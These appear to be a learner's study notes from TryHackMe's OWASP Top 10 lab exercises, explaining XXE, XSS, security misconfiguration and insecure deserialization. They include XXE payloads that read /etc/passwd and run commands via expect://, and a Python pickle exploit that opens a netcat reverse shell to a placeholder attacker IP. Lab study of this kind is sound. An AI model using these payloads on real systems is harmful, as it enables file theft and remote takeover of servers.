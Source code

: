 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-06

# OWASP Top 10

## (Severity 04) XML External Entity

As with injection attacks, XML external entity (XXE) attacks are broken down into two types: in-band (analogous us to active injection attacks) and out-of-band (OOB-XXE or "blind" XXE, which are of course analogous to blind injection attacks).

The encoding/version bit of an XML document is called the "prolog".

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

Also, there is one and only one root element in an XML document. And XML is case-sensitive. Whee!

DTDs look very XML-like themselves. Using the actual example from TryHackMe, this DTD:

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to, from, heading, body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

Defines this XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>foo</to>
    <from>bar</from>
    <heading>baz</heading>
    <body>etc.</body>
</note>
```

(`#PCDATA` indicates "parsable character data" - an XML-encoded string.) 

There are three basic important XML bits here:

* `!DOCTYPE` defines the document type *and* the root element.
* `!ELEMENT` defines additional elements (so if I understand this correctly, a !DOCTYPE declaration must contain at least one !ELEMENT with the same name).
* `!ENTITY` defines entities like `&gt;` - basically shortcuts for other data. There seems to be a lot more to XML entities than just this though...

The SYSTEM keyword can be included in !ENTITY declarations (or in the XML document !DOCTYPE declaration), and means "read this from the current system".

Basically, you can think of the bit between the brackets (`[]`) in the DTD as getting slotted into the URI specifying the DTD in the XML !DOCTYPE. In fact, we can insert additional document type definitions into the end of a !DOCTYPE statement in this way; combining this with the SYSTEM declaration can allow us to read any files the webserver has access to.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]>
<root>&read;</root>
```

This basically strikes me as more-or-less the same thing as an injection attack, just that we're targeting the XML parser rather than the website code.

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

It looks like this is something that would be more commonly attacked over an API than directly through a web front-end.

* [2021-10-05 - TryHackMe: Complete Beginner](2021-10-05-tryhackme-complete-beginner.md)
* [ENTITY Declaration](https://xmlwriter.net/xml_guide/entity_declaration.shtml)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

## (Severity 06) Security Misconfiguration

Basically, this about the use of defaults or bad configurations of existing security controls, whereas "broken access control" (which didn't really include anything worth noting explicitly) is about missing or non-functional controls.

## (Severity 07) Cross-Site Scripting

Three varieties:

* Stored XSS (saved to the website database)
* Reflected XSS (included in the user request, for example via a malicious link)
* [DOM-Based XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting#DOM_Based_XSS_.28AKA_Type-0.29) (a little unclear what this is, but it looks like it's basically similar to a reflection attack except that everything happens client-side)

[XSS-Payloads is a library of potentially useful XSS tools.](http://www.xss-payloads.com/)

Mostly, this is about injecting `<script/>` tags.

## (Severity 08) Insecure Deserialization

Basically, this is about trusting user-provided input to determine state.

On the low end, this can be something like using a cookie to determine user privileges.

But on the high end, if the application is actually *executing* data provided by the user *as code*.

So what's the difference between this and injection? (As far as I can tell) In command injection we're abusing an existing function to get the web application to run a command (system, SQL, whatever) for us, while insecure deserialization is specifically about manipulating the internal state of the application (which can include the before-mentioned data-as-code trick).

Where the name of this vulnerability starts to make more sense is when the application is encoding (serializing) objects or other data structures, storing them on the user side, and then decoding (deserializing) the structure at a later time and using / trusting it without further checks.

In the TryHackMe example we're attacking the Python pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

[This post is much clearer than TryHackMe when it comes to explaining how we're attacking pickle.loads().](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Anyways, the TryHackMe room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (YOUR_TRYHACKME_VPN_IP gets replaced by your VPN IP):

```python
#!/usr/bin/env python

import pickle
import sys
import base64

command =  'rm /tmp/f; '
command += 'mkfifo /tmp/f; '
command += 'cat /tmp/f | '
command += '/bin/sh -i 2>&1 | '
command += 'netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

What's getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there's our reverse shell!

(SIDE NOTE: Isn't `nc` a more common name for `netcat`? Debian provides links to both in /etc/aleternatives, but it seems best not to assume we're on a Debian system...)

* [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)
